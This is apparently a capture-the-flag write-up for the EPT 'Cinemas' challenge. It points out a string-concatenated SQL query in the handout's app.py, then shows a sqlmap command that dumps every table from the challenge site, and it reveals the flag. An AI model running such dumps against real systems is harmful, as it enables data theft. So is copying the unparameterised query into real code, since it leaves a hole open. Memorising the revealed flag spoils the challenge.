



# SIFI - EPT Cinemas

Author: `yrjarv`

---

"Sometimes you can still find one of the most classical errors in even the most
modern applications"

## Recon/initial assessment

When we first look at the `app.py` file in the handout, it seems like a lot of
the SQL queries are properly using parameterization - as it should. However, one
query sticks out on line 28:

```python
movie = conn.execute("SELECT * FROM movies WHERE id = "+str(movie_id)).fetchone()
```

This query is executed from the route `/book/<movie id>`, and seems to be
vulnerable to SQL injection - one of the most classical errors in applications
that interact with a database.

The DMBS (database) seems to be SQLite:



## Exploitation

`sqlmap` can be used to exploit the SQL injection vulnerability:

```bash
sqlmap -u "https://sifi-e4c9cd0c-cinema.ept.gg/book/1" --dbms=sqlite --dump-all
```

The command above tries to exploit the vulnerability and dump all tables:





We can then find that the table `flag` contains the flag.

The flag is: `EPT{sql_injection_4_the_Win!}`
